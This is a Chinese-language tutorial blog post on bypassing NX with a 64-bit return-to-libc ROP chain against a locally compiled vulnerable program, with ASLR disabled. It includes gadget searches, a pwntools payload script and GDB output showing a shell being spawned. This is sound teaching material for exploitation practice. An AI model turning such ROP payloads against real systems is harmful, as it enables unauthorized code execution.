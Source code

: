 ```yaml
---
id: 780
layout: post
title: '二进制安全之栈溢出（五）'
date: 2017-10-24 12:46:07
author: virusdefender
tags: 安全 CTF
---
```


NX 不可执行是一项重要的漏洞利用缓解措施，为了绕过 NX 我们需要利用已有的可执行区域的代码片段来辅助完整漏洞利用。

这次还是需要禁用 ASLR，编译参数为 `gcc -g -O0 -fno-stack-protector -o vuln main.c`

在 32 位系统中，函数调用参数都是通过栈来传递的，而在 64 位系统中，函数参数是优先使用寄存器来传递的，当参数少于 7 个时，参数从左到右放入寄存器 `rdi, rsi, rdx, rcx, r8, r9`，如果超过 7 个，剩下的参数还是使用栈来传递。

在 32 位系统中，因为栈是相对容易控制的，我们可以控制栈为函数参数的形式，然后覆盖返回地址为已有的函数地址，比如 libc 中的 system 函数，这样就可以实现任意命令执行了。但是在 64 位系统中，控制了栈是没有用的，必须要控制寄存器才可以，除非是函数不需要参数。所以我们需要找到一些已有的指令片段，比如 `pop rdi`，会把栈中的参数转移到寄存器中，这样逐步的控制所需的所有寄存器，我们称这种指令片段为 gadget。

## 需要什么

以执行 `system("/bin/sh")` 为例

 - `system` 函数的地址，因为禁用了 ASLR，这个地址可以放心的硬编码。
 - 要执行的函数参数，这里是 `/bin/sh`，需要在内存中放置或者找到一个已有的。
 - 一个可以把 `/bin/sh` 放入 rdi 寄存器的 gadget。

## `system("/bin/sh")`

`system` 函数的地址可以简单获得

```
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x400550 <system@plt>
```

而寻找 `/bin/sh` 可以使用 `find` 命令

```
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7ffff7b99d17 --> 0x68732f6e69622f ('/bin/sh')
```

发现 libc 中有一个，而 `student` 内存我们可以控制，也可以自己放置一个，这次先使用 libc 中的。

## gadget 的选择

我们需要一个能把 `0x7ffff7b99d17` 放入寄存器的 gadget

[Ropper](https://github.com/sashs/Ropper) 是一个寻找 gadget 的工具，安装后可以使用下面的命令来寻找 

```
python Ropper.py --file VULN_PATH --search "% rdi"
```

可以看到结果是 

```
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: % ?di

[INFO] File: ../vuln
0x0000000000400803: pop rdi; ret;
```

发现结果非常理想， `pop rdi; ret;` 可以复制参数到寄存器，其次是 `ret` 可以让程序再回到我们控制的地址上继续后续的执行。

## shellcode

仿照之前的写法，我们很简单就可以写出 shellcode

```python
from pwn import *
shellcode = "1925\n"
shellcode += "A" * (0x7fffffffe348 - 0x7fffffffe2f0)
# pop rdi; ret
shellcode += p64(0x0000000000400803)
# /bin/sh
shellcode += p64(0x7ffff7b99d17)
# system
shellcode += p64(0x400550)

print shellcode
```

## 分析

这个栈布局已经是很清楚了

```
0016| 0x7fffffffe2f0 ('A' <repeats 88 times>, "\003\b@")
0024| 0x7fffffffe2f8 ('A' <repeats 80 times>, "\003\b@")
0032| 0x7fffffffe300 ('A' <repeats 72 times>, "\003\b@")
0040| 0x7fffffffe308 ('A' <repeats 64 times>, "\003\b@")
0048| 0x7fffffffe310 ('A' <repeats 56 times>, "\003\b@")
0056| 0x7fffffffe318 ('A' <repeats 48 times>, "\003\b@")
0064| 0x7fffffffe320 ('A' <repeats 40 times>, "\003\b@")
0072| 0x7fffffffe328 ('A' <repeats 32 times>, "\003\b@")
0080| 0x7fffffffe330 ('A' <repeats 24 times>, "\003\b@")
0088| 0x7fffffffe338 ('A' <repeats 16 times>, "\003\b@")
0096| 0x7fffffffe340 ("AAAAAAAA\003\b@")
0104| 0x7fffffffe348 --> 0x400803 (<__libc_csu_init+99>:	pop    rdi)
0112| 0x7fffffffe350 --> 0x7ffff7b99d17 --> 0x68732f6e69622f ('/bin/sh')
0120| 0x7fffffffe358 --> 0x400550 (<system@plt>:	jmp    QWORD PTR [rip+0x200aca]        # 0x601020)
```

在 GDB 中运行，可以看到 `/bin/dash` 被执行，其实 `/bin/sh` 就仅仅是它的一个符号链接。

```
gdb-peda$ r < in.txt
Starting program: /home/virusdefender/Desktop/pwn/new/vuln < in.txt
0x7fffffffe2f0What's Your Birth?
What's Your Name?
You Are Born In 1094795585
You Are Naive.
You Speed One Second Here.
[New process 4824]
process 4824 is executing new program: /bin/dash
[New process 4825]
process 4825 is executing new program: /bin/dash
[Inferior 3 (process 4825) exited normally]
Warning: not running or target is remote
```

会发现两个 `/bin/dash` 的原因是 `system` 函数的原理是 `/bin/sh -c $cmd`，所以会先启动一个 `/bin/sh`，然后 `execve` 想运行的命令，这里还是 `/bin/sh`。

因为禁用 ASLR 的原因，libc 的加载地址不变，这个 shellcode 也是可以直接运行的

```
➜  new (cat in.txt; cat) |./vuln
0x7fffffffe360What's Your Birth?
What's Your Name?
You Are Born In 1094795585
You Are Naive.
You Speed One Second Here.
id
uid=1000(virusdefender) gid=1000(virusdefender) groups=1000(virusdefender),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```


## 参考

 - [https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/](https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/)
 - [https://zhuanlan.zhihu.com/p/23537552](https://zhuanlan.zhihu.com/p/23537552)

